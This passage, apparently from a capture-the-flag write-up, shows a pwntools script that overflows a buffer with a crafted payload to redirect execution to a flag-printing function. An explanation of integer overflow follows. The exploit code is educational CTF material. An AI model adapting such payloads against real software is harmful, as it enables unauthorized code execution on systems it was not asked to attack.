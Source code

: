 ```
log.info('Binary Base: ' + hex(exe.base))

### GET FLAG ###
flag = exe.sym.gets_h + exe.base
payload = b'A' * 12 + p32(flag) + b'\x80'       # b'\x80' - select any byte
p.sendlineafter(b'2024: ', payload)

p.interactive()
```
![alt text](/images/image-6-4.png)
---

### Integer Overflow & Signal

> Integers have a maximum size, and if you go past the maximum size, it becomes a small number (either negative or zero).
>
> For example, a single (unsigned) byte has a maximum value of 255. Adding one to the byte will set the value to 0, not 256.
>
> The largest (unsigned) values for ints (4 bytes) and longs (8 bytes) are 4294967295 and 18446744073709551615 respectively. (roughly 2^32 and 2^64).
